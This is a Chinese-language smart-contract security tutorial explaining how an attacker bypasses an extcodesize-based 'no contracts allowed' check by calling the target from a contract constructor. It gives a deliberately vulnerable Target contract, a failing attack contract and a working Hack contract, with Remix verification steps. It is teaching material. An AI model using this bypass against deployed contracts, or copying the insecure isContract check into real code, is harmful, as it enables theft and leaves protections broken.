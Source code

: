 # 79.Bypass Contract Size Check
## 漏洞
如果一个地址是一个合约，那么存储在该地址的代码大小肯定大于0，对吧？

让我们看看如何创建一个代码大小由extcodesize返回的合约等于0的合约。

* Tatget合约：Target合约是一个简单的合约，包含一个bool类型的状态变量pwned和一个函数protected()。该函数要求调用者不是一个合约，如果调用者是一个合约，函数将抛出一个错误。该函数将pwned变量设置为true。
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.17;

contract Target {
    function isContract(address account) public view returns (bool) {
        // 该方法依赖于extcodesize函数，对于正在构建中的合约，该函数返回0，因为代码只在构造函数执行结束时存储。
        uint size;
        assembly {
            size := extcodesize(account)
        }
        return size > 0;
    }

    bool public pwned = false;

    function protected() external {
        require(!isContract(msg.sender), "no contract allowed");
        pwned = true;
    }
}
```
* FailedAttack合约：FailedAttack合约是一个攻击合约，尝试调用Target合约的protected()函数。但是，由于Target合约的保护机制，从合约调用将失败。
```solidity
contract FailedAttack {
    // 尝试调用Target.protected将失败，
    // Target阻止从合约调用
    function pwn(address _target) external {
        // 这将失败
        Target(_target).protected();
    }
}
```
* Hack合约：Hack合约是一个攻击合约，可以绕过Target合约的保护机制。当Hack合约被创建时，它会调用Target合约的isContract()函数来检查它自己是否是一个合约。但是，由于Target合约的isContract()函数依赖于extcodesize()函数，该函数在合约创建期间返回0，因此Hack合约将绕过isContract()检查。然后，它调用Target合约的protected()函数，将pwned变量设置为true。


```solidity
contract Hack {
    bool public isContract;
    address public addr;

    // 当合约正在创建时，代码大小（extcodesize）为0。
    // 这将绕过isContract()检查
    constructor(address _target) {
        isContract = Target(_target).isContract(address(this));
        addr = address(this);
        //这将起作用
        Target(_target).protected();
    }
}
```

## remix验证
1. 部署Target合约，调用 isContract函数输入一个合约地址，查看结果
![79-1.jpg](img/79-1.jpg)
2. 部署FailedAttack合约，调用pwn函数输入上一步的Target合约地址，验证是否成功
![79-2.jpg](img/79-2.jpg)
3. 部署Hack合约，将Target合约地址作为参数传入构造函数。Hack合约的构造函数调用Target.isContract()方法，但此时Hack合约的代码大小为0，因此isContract()方法返回false。
![79-3.jpg](img/79-3.jpg)
4. Hack合约的构造函数调用Target.protected()方法，由于调用者是一个地址而不是合约，因此调用成功并将pwned变量设置为true。查看Target合约的pwned变量，应该为true，说明攻击成功。
![79-4.jpg](img/79-4.jpg)